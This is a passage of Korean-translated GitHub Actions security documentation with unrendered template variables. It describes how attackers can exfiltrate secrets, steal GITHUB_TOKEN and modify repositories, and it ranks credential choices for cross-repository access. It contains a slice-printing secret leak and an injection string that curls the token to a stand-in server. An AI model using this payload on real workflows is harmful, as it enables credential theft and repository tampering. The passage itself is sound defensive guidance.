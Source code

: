 {% data variables.product.prodname_actions %}은 워크플로(또는 포함된 작업)에서 참조되지 않은 메모리에서 비밀을 스크럽하지만 확인된 공격자가 `GITHUB_TOKEN` 및 참조된 비밀을 수집할 수 있습니다.

### 실행기에서 데이터 유출

공격자는 실행기에서 도난당한 비밀 또는 기타 데이터를 유출할 수 있습니다. 실수로 인한 비밀 공개를 방지하기 위해 {% data variables.product.prodname_actions %}은 [로그에 인쇄된 비밀을 자동으로 수정](/actions/reference/encrypted-secrets#accessing-your-secrets)하지만 비밀이 의도적으로 로그로 전송될 수 있으므로 이는 진정한 보안 경계가 아닙니다. 예를 들어 난독 처리된 비밀은 `echo ${SOME_SECRET:0:4}; echo ${SOME_SECRET:4:200};`을 사용하여 유출할 수 있습니다. 또한 공격자가 임의의 명령을 실행할 수 있으므로 HTTP 요청을 사용하여 비밀 또는 기타 리포지토리 데이터를 외부 서버로 보낼 수 있습니다.

### 작업의 `GITHUB_TOKEN` 도용

공격자가 작업의 `GITHUB_TOKEN`을 도용할 수 있습니다. {% data variables.product.prodname_actions %} 실행기는 워크플로가 포함된 리포지토리로만 제한되는 권한으로 생성된 `GITHUB_TOKEN`을 자동으로 수신하며, 작업이 완료된 후 토큰이 만료됩니다. 토큰은 만료되면 공격자에게 더 이상 유용하지 않습니다. 제한을 해결하기 위해 예를 들어 `a"; set +e; curl http://example.com?token=$GITHUB_TOKEN;#`와 같은 토큰을 사용하여 공격자 제어 서버를 호출하여 공격을 자동화하고 1초 단위로 수행할 수 있습니다.

### 리포지토리의 콘텐츠 수정

공격자 서버는 `GITHUB_TOKEN`의 할당된 권한이 [제한되지 않은 경우](/actions/reference/authentication-in-a-workflow#modifying-the-permissions-for-the-github_token) {% ifversion fpt or ghec %}{% data variables.product.prodname_dotcom %}{% else %}{% data variables.product.product_name %}{% endif %} API를 사용하여 릴리스를 포함한 [리포지토리 콘텐츠를 수정](/actions/reference/authentication-in-a-workflow#permissions-for-the-github_token)할 수 있습니다.

## 리포지토리 간 액세스 고려

{% data variables.product.prodname_actions %}은 한 번에 하나의 리포지토리에 대해 의도적으로 범위가 지정됩니다. 모든 쓰기 액세스 사용자가 워크플로 파일을 만들거나 수정하거나, 필요한 경우 `GITHUB_TOKEN`의 사용 권한을 승격하여 `GITHUB_TOKEN`에 액세스할 수 있으므로 이 토큰은 쓰기 액세스 사용자와 동일한 수준의 액세스 권한을 부여합니다. 사용자는 각 리포지토리에 대해 특정 권한을 가지므로 한 리포지토리에 대한 `GITHUB_TOKEN`에 다른 리포지토리에 대한 액세스 권한을 부여하도록 허용 하면 신중하게 구현되지 않은 경우 {% data variables.product.prodname_dotcom %} 권한 모델에 영향을 줄 수 있습니다. 마찬가지로 워크플로에 {% data variables.product.prodname_dotcom %} 인증 토큰을 추가할 때는 주의해야 합니다. 이는 공동 작업자에게 광범위한 액세스 권한을 실수로 부여하여 {% data variables.product.prodname_dotcom %} 권한 모델에도 영향을 줄 수 있기 때문입니다.

[{% data variables.product.prodname_dotcom %} 로드맵에 대한 계획](https://github.com/github/roadmap/issues/74)은 {% data variables.product.product_name %} 내에서 리포지토리 간 액세스를 허용하는 흐름을 지원하지만 아직 지원되는 기능은 아닙니다. 현재 권한 있는 리포지토리 간 상호 작용을 수행하는 유일한 방법은 {% data variables.product.prodname_dotcom %} 인증 토큰 또는 SSH 키를 워크플로 내에서 비밀로 배치하는 것입니다. 많은 인증 토큰 유형은 특정 리소스에 대한 세분화된 액세스를 허용하지 않기 때문에 의도한 것보다 훨씬 광범위한 액세스 권한을 부여할 수 있으므로 잘못된 토큰 형식을 사용할 때 상당한 위험이 있습니다.

이 목록에서는 워크플로 내에서 기본 설정의 내림차순으로 리포지토리 데이터에 액세스하는 데 권장되는 방법을 설명합니다.

1. **`GITHUB_TOKEN`**
    -  이 토큰은 의도적으로 워크플로를 호출한 단일 리포지토리로 범위가 지정되며 리포지토리의 쓰기 액세스 사용자와 동일한 수준의 액세스 권한을 가질 수 있습니다. 토큰은 각 작업이 시작되기 전에 만들어지고 작업이 완료되면 만료됩니다. 자세한 내용은 “[GITHUB_TOKEN을 사용한 인증](/actions/configuring-and-managing-workflows/authenticating-with-the-github_token)”을 참조하세요.
    - `GITHUB_TOKEN`은 가능할 때마다 사용되어야 합니다.
2. **리포지토리 배포 키**
    - 배포 키는 단일 리포지토리에 대한 읽기 또는 쓰기 액세스 권한을 부여하는 유일한 자격 증명 유형 중 하나이며 워크플로 내에서 다른 리포지토리와 상호 작용하는 데 사용할 수 있습니다. 자세한 내용은 “[배포 키 관리](/developers/overview/managing-deploy-keys#deploy-keys)”를 참조하세요.
    - 배포 키는 Git을 사용하여 리포지토리에만 복제하고 푸시할 수 있으며 REST 또는 GraphQL API와 상호 작용하는 데 사용할 수 없으므로 요구 사항에 적합하지 않을 수 있습니다.
3. **{% data variables.product.prodname_github_app %} 토큰**
    - {% data variables.product.prodname_github_apps %}은 선택 리포지토리에 설치할 수 있으며 해당 리포지토리 내의 리소스에 대한 세분화된 권한을 가질 수도 있습니다. 조직 내부 {% data variables.product.prodname_github_app %}을 만들고, 워크플로 내에서 액세스해야 하는 리포지토리에 설치하고, 워크플로 내에서 설치로 인증하여 해당 리포지토리에 액세스할 수 있습니다.
4. **{% data variables.product.pat_generic %}s**
    - {% data variables.product.pat_v1 %}을(를) 사용하면 안 됩니다. 토큰은 액세스 권한이 있는 조직 내의 모든 리포지토리와 개인 계정의 모든 개인 리포지토리에 대한 액세스 권한을 부여합니다. 이렇게 하면 워크플로가 있는 리포지토리의 모든 쓰기 액세스 사용자에게 간접적으로 광범위한 액세스 권한이 부여됩니다.
    - {% data variables.product.pat_generic %}을(를) 사용하는 경우 자신의 계정에서 {% data variables.product.pat_generic %}을(를) 사용하면 안 됩니다. 나중에 조직을 떠날 경우 이 토큰을 사용하는 워크플로가 즉시 중단되고 이 문제를 디버깅하는 것이 어려울 수 있습니다. 대신 조직에 속하고 워크플로에 필요한 특정 리포지토리에 대한 액세스 권한만 부여되는 새 계정에 대해 {% ifversion pat-v2%}{% data variables.product.pat_v2 %}s{% else %}{% data variables.product.pat_generic %}s{% endif %}을(를) 사용해야 합니다. 이 방법은 확장할 수 없으며 배포 키와 같은 대안을 선호하지 않아야 합니다.